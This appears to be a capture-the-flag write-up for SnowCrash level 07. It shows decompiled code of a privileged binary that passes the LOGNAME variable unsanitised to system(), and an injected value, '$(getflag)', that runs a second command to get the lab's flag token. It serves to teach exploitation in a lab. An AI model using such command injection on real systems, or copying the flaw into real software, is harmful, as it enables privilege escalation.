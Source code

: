 # SnowCrash Level 07

## Introduction
Welcome to SnowCrash Level 07! In this level, we encountered an executable file and utilized Ghidra for analysis.

## Initial Exploration
Upon listing the files, we found an executable file. Using Ghidra, we analyzed the executable, revealing the following code snippet:
```
int main(int argc, char **argv, char **envp)
{
    char *pcVar1;
    int iVar2;
    char *buffer;
    gid_t gid;
    uid_t uid;
    char *local_1c;
    __gid_t local_18;
    __uid_t local_14;
  
    local_18 = getegid();
    local_14 = geteuid();
    setresgid(local_18, local_18, local_18);
    setresuid(local_14, local_14, local_14);
    local_1c = (char *)0x0;
    pcVar1 = getenv("LOGNAME");
    asprintf(&local_1c, "/bin/echo %s ", pcVar1);
    iVar2 = system(local_1c);
    return iVar2;
}
```
## Exploitation Approach
The crucial part of the code is:
```
pcVar1 = getenv("LOGNAME");
asprintf(&local_1c, "/bin/echo %s ", pcVar1);
iVar2 = system(local_1c);
```
We realized that by changing the value of the environment variable LOGNAME, we could control the command executed by the system() function.

## Exploiting with Environment Variable
We set the LOGNAME environment variable to '$(getflag)':
```
export LOGNAME='$(getflag)'
```
Then, when executing the program ./level07, it executed the command echo $(getflag) and provided us with the flag.

## Results
```
level07@SnowCrash:~$ ./level07
Check flag. Here is your token: fiumuikeil55xe9cu4dood66h
```
## Conclusion
By understanding the code and manipulating environment variables, we successfully exploited the program to obtain the flag.
